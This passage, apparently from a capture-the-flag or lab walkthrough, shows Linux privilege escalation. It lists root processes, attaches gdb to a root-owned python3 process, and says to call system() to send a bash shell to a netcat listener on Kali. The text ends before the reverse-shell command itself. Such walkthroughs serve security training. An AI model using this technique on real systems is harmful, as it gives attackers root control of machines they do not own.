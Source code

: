 First find processes running as root:

```sh
-bash-5.0$ ps aux | grep "^root*"
root           1  0.0  0.5 170284 11528 ?        Ss   10:56   0:28 /sbin/init maybe-ubiquity
root           2  0.0  0.0      0     0 ?        S    10:56   0:00 [kthreadd]
root           3  0.0  0.0      0     0 ?        I<   10:56   0:00 [rcu_gp]
<SNIP>
root         668  0.0  0.3  99896  6008 ?        Ssl  10:56   0:00 /sbin/dhclient -1 -4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0
root         687  0.0  0.4 238080  9176 ?        Ssl  10:56   0:01 /usr/lib/accountsservice/accounts-daemon
root         696  0.0  0.1  81956  3756 ?        Ssl  10:56   0:02 /usr/sbin/irqbalance --foreground
root         699  0.0  0.9  26896 18224 ?        Ss   10:56   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
root         701  0.0  0.4 236436  9292 ?        Ssl  10:56   0:00 /usr/lib/policykit-1/polkitd --no-debug
root         707  0.0  0.3  17500  7796 ?        Ss   10:56   0:00 /lib/systemd/systemd-logind
root         708  0.0  0.6 395512 13720 ?        Ssl  10:56   0:00 /usr/lib/udisks2/udisksd
root         740  0.0  0.6 245084 13340 ?        Ssl  10:56   0:00 /usr/sbin/ModemManager
```

Through trial and error I found the process running python3 worked. So attach gdb to it:

```sh
-bash-5.0$ gdb -p 699
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
<SNIP>
(No debugging symbols found in /lib/x86_64-linux-gnu/libgpg-error.so.0)
Reading symbols from /usr/lib/python3/dist-packages/_dbus_glib_bindings.cpython-38-x86_64-linux-gnu.so...
(No debugging symbols found in /usr/lib/python3/dist-packages/_dbus_glib_bindings.cpython-38-x86_64-linux-gnu.so)
Reading symbols from /usr/lib/python3.8/lib-dynload/_bz2.cpython-38-x86_64-linux-gnu.so...
(No debugging symbols found in /usr/lib/python3.8/lib-dynload/_bz2.cpython-38-x86_64-linux-gnu.so)
Reading symbols from /lib/x86_64-linux-gnu/libbz2.so.1.0...
(No debugging symbols found in /lib/x86_64-linux-gnu/libbz2.so.1.0)
Reading symbols from /usr/lib/python3.8/lib-dynload/_lzma.cpython-38-x86_64-linux-gnu.so...
(No debugging symbols found in /usr/lib/python3.8/lib-dynload/_lzma.cpython-38-x86_64-linux-gnu.so)
0x00007f0a7964d967 in __GI___poll (fds=0x25d9a60, nfds=3, timeout=-1) at ../sysdeps/unix/sysv/linux/poll.c:29
29      ../sysdeps/unix/sysv/linux/poll.c: No such file or directory.
(gdb)
```

Make sure you have netcat listening on Kali then use the system function to use bash to connect to it:
